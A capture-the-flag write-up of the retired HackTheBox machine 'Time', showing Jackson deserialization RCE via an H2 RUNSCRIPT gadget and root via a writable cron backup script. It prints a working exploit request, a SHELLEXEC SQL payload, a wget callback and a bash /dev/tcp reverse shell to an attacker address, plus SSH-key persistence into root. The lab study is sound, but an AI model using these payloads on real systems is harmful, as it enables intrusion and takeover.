 Title:HTB: Time
Date: 04-07-2021 19:20
category:security
tags:security, boot2root, HTB, linux, jackson, deserialization
meta:security, boot2root, HTB, linux, jackson, deserialization

<img class="align-left" src="/media/2021.04/time_card.png" alt="Time Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Time](https://www.hackthebox.eu/home/machines/profile/286) publish on
October 24, 2020 by
[egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858) and
[felamos ](https://www.hackthebox.eu/home/users/profile/27390).
This box is rated as a medium box. It implies a hard foothold using Jackson and
some Google fu. The root part is quit fast as there is a writable bash script
running regularly as root.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Wed Nov  11 12:02:12 2020 as: nmap -sS -p- -oN nmap 10.129.29.179
    Nmap scan report for 10.129.29.179
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Wed Nov  11 12:02:28 2020 -- 1 IP address (1 host up) scanned in 15.91 seconds

## Web

The website is an online tool to beautify and validate json data.

![/media/2020.xx/time_01.png]

When we try to validate "garbage" input. We got an error message "Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'qe': was expecting ('true', 'false' or 'null')"

We see that the website is using the Jackson library.

As we want a RCE we start a few Google search with "jackson fasterxml rce".
The results are from 2017:

* https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062


We continue our searches and finally get to "jackson gadget". Which lead us to a
more recent [article about Jackson gadgets](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).


We send the following request (we just URL encoded the data parameter)

    :::text
    POST / HTTP/1.1
    Host: 10.129.29.179
    User-Agent: Mozilla/4.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 174
    Origin: http://10.129.29.179
    Connection: close
    Referer: http://10.129.29.179/
    Upgrade-Insecure-Requests: 1

    mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource",+{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT+FROM+'http://10.10.14.25:8000/inject.sql'"}]

    Our inject.sql file looks like the following:

    :::text
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('<payload>')


We start with a first simple payload `wget http://10.10.14.25:8000/rce`
as we see the query in our python server log we know that we have RCE

We change the payload to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
`bash -i >& /dev/tcp/10.10.14.25/4242 0>&1`

This allows us to get a shell and grab the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p4242
    bash: cannot set terminal process group (958): Inappropriate ioctl for device
    bash: no job control in this shell
    pericles@time:/var/www/html$ cat /home/pericles/user.txt
    cat /home/pericles/user.txt
    74555f76d2e8013945afd9233ca2f219

# Root

We start by checking our privileges. We are not part of any specific group. As we don't know our password we cannot use sudo.

    :::text
    pericles@time:/var/www/html$ id
    id
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

As we want to transfer file and have a better shell, we "upload" our SSH key:

    :::text
    mkdir /home/pericles/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFvS<SNIP>' > /home/pericles/.ssh/authorized_keys

We upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) using scp and run it.
We discover that we have access to the /usr/bin/timer_backup.sh file (read and write)

    :::text
    [+] .sh files in path
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
    /usr/bin/gettext.sh
    You own the script: /usr/bin/timer_backup.sh
    /usr/bin/rescan-scsi-bus.sh

We take a look at the file. It seems that root is regulary making a backup of the website.


    :::text
    pericles@time:~$ cat /usr/bin/timer_backup.sh
    #!/bin/bash
    zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip


We modify the file using Vim and add the following lines

    :::text
    mkdir /root/.ssh
    echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/ElCFv<SNIP>' > /root/.ssh/authorized_keys

Waiting a few seconds and connecting back to the box with the root user allow us to get a shell and grab the flag.


    :::text
    kali@kali:~$ ssh root@10.129.29.179
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

    <SNIP>

    Last login: Fri Oct 23 10:05:26 2020
    root@time:~# cat root.txt
    50fb5aa6e01ec64a77c48d42cf533088

# Wrapping up

The root part was easy, the jackson exploitation was harder and mostly some Google fu.
Nonetheless an interesting box to play with Java Deserialization vulnerabilities.

